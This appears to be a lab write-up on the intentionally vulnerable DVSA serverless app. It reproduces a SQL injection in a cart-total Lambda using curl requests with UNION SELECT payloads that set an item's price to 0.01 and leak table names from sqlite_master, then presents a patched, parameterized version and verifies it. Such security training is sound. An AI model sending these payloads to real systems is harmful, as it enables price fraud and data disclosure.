



# Bonus Vulnerability #5: SQL Injection in Cart Total Calculation.

## Part 1) Goal and Vulnerability Summary

The DVSA-GET-CART-TOTAL Lambda calculates billing totals by running a raw SQL query against a local SQLite inventory database. The user-supplied itemId is concatenated directly into the query string, no parameterization, no type coercion. An authenticated user can inject UNION SELECT payloads that let fetchone() return attacker-chosen (itemId, price, quantity) tuples. Impact: price tampering (charge any amount) and schema disclosure (leak table names into CloudWatch).

## Part 2) Why This Works / Root Cause

Line 82 of get_cart_total.py reads cur.execute("SELECT itemId, price, quantity FROM inventory WHERE itemId = " + item_id + ";"). The value item_id comes from the items dict in the user's new/update action, no int() cast, no allowlist, no parameterized query. Any SQLite fragment is accepted. A UNION payload directly controls the tuple fetchone() returns, which in turn controls total = qty * price in the billing pipeline.

## Part 3) Environment and Setup

API endpoint: https://76lah627bi.execute-api.us-east-1.amazonaws.com/dvsa/order

Vulnerable Lambda: DVSA-GET-CART-TOTAL (get_cart_total.py)

CloudWatch log group: /aws/lambda/DVSA-GET-CART-TOTAL

Tools: curl, valid Cognito access token

## Part 4) Reproduction Steps

Create an order whose item ID is a UNION payload:

curl -s "$API" -H "authorization: $TOKEN" -H "Content-Type: application/json" \

-d '{"action":"new","cart-id":"sqli1","items":{"1 UNION SELECT 1,0.01,999":1}}' | jq

Add shipping and trigger billing

export ORDER_ID="<returned order-id>"

curl -s "$API" -H "authorization: $TOKEN" -H "Content-Type: application/json" \

-d "{\"action\":\"shipping\",\"order-id\":\"$ORDER_ID\",\"data\":{\"address\":\"x\",\"email\":\"x@x.com\",\"name\":\"x\"}}" | jq

curl -s "$API" -H "authorization: $TOKEN" -H "Content-Type: application/json" \

-d "{\"action\":\"billing\",\"order-id\":\"$ORDER_ID\",\"data\":{\"ccn\":\"4242424242424242\",\"exp\":\"11/25\",\"cvv\":\"123\"}}" | jq

CloudWatch /aws/lambda/DVSA-GET-CART-TOTAL shows Found item: 1. Price: 0.01, Quantity: 999. The UNION returned the attacker's chosen tuple (Figure 49).

Repeat with a schema-disclosure payload:

curl -s "$API" -H "authorization: $TOKEN" -H "Content-Type: application/json" \

-d '{"action":"new","cart-id":"sqli2","items":{"1 UNION SELECT 1, (SELECT group_concat(name) FROM sqlite_master WHERE type='"'"'table'"'"'), 0":1}}' | jq

## Part 5) Evidence and Proof

*Figure 49. CloudWatch log for /aws/lambda/DVSA-GET-CART-TOTAL showing the UNION payload executed. Found item: 1. Price: 0.01, Quantity: 999. proves the attacker-controlled tuple was substituted for the real inventory row. The function returned {"total": 0.01} to the billing Lambda.*

*Figure 50. CloudWatch log showing schema disclosure. Injected payload 1 UNION SELECT 1, (SELECT group_concat(name) FROM sqlite_master WHERE type='table'), 0 causes the Lambda to print Price: inventory, Quantity: 0. Leaking the database's internal table name through the application's own logging.*

## Part 6) Fix Strategy / Probable Mitigation

In get_cart_total.py:

(1) coerce item_id to int before using it, this alone defeats every UNION-style payload because they cannot parse as integers,

(2) replace string concatenation with a parameterized query using the sqlite3 driver's ? placeholder,

(3) log rejections so detection is possible. Apply the same pattern to create_receipt.py line 108 which has the identical flaw.

## Part 7) Code / Config Changes

File: DVSA-GET-CART-TOTAL/get_cart_total.py

*Figure 51. Patched get_cart_total.py code showing integer validation and parameterized SQL query.*

Before (vulnerable):

for obj in cart_items:

item_id = obj["itemId"]

qty = int(obj["quantity"])

try:

res = cur.execute(

"SELECT itemId, price, quantity FROM inventory WHERE itemId = "

+ item_id + ";"          # <-- raw concatenation = SQL injection

)

After (patched):

for obj in cart_items:

item_id = obj["itemId"]

qty = int(obj["quantity"])

# INPUT VALIDATION: int() coercion blocks every UNION / quote / subquery payload.

try:

safe_id = int(item_id)

except (TypeError, ValueError):

print(f"REJECTED non-integer item_id: {item_id!r}")

res = {"status": "error", "message": "invalid item id"}

return {'statusCode': 200, 'body': json.dumps(res)}

try:

# PARAMETERIZED QUERY: ? is bound by the driver, cannot be interpreted as SQL.

res = cur.execute(

"SELECT itemId, price, quantity FROM inventory WHERE itemId = ?;",

(safe_id,)

)

## Part 8) Verification After Fix

The same UNION payload now returns {"status":"err","msg":"could not calculate order total"}

*Figure 52. CloudWatch shows REJECTED non-integer item_id: '1 UNION SELECT 1,0.01,999'*

*Figure 53. The injection is blocked at the type-coercion stage before any SQL is constructed, closing both the price-tampering and schema-disclosure paths.*

## Part 9) Structured Operation and Security Analysis

Table A. Intended Logic and Exploit Behavior

| Vulnerability | Intended Rule(s) | Artifacts Used | Normal Behavior Evidence | Exploit Behavior Evidence |
| --- | --- | --- | --- | --- |
| Bonus #5: SQL Injection in Cart Total | Item identifiers must be strictly integer-typed and bound to parameterized queries. String concatenation into SQL is forbidden. | get_cart_total.py; CloudWatch log group; curl billing response. | Numeric item IDs return the correct inventory row; billing charges the correct price. | UNION payload 1 UNION SELECT 1,0.01,999 makes the function return total: 0.01; sqlite_master subquery leaks table names into logs. |

Table B. Deviation Analysis and Fix

| Vulnerability | Why This Is a Deviation | Deviation Class | Fix Applied (Where) | Post-Fix Verification |
| --- | --- | --- | --- | --- |
| Bonus #5: SQL Injection in Cart Total | User input was executed as SQL because the identifier was concatenated into the query. Confidentiality (schema disclosure) and integrity (price tampering) both violated. | Intentional misuse / security-relevant abuse | get_cart_total.py line 82: int() coercion + parameterized query with ? placeholder. | Injection payload rejected at type-coercion stage; CloudWatch logs the rejection; no SQL is executed on attacker input. |

## Part 10) Takeaway / Lessons Learned

Raw string concatenation into any query language is a permanent anti-pattern. Parameterized queries plus strict type coercion eliminate the entire class — the driver handles escaping, and int() rejects non-numeric input before any query is built. SQLite inside a Lambda is no safer than SQL on a traditional server; the same rules apply. Also: logging user input at ERROR level (as DVSA does with print(f"Found item: ...")) can itself become a disclosure vector, so logged values should either be sanitized or the log format redesigned to not print attacker-controlled data verbatim.
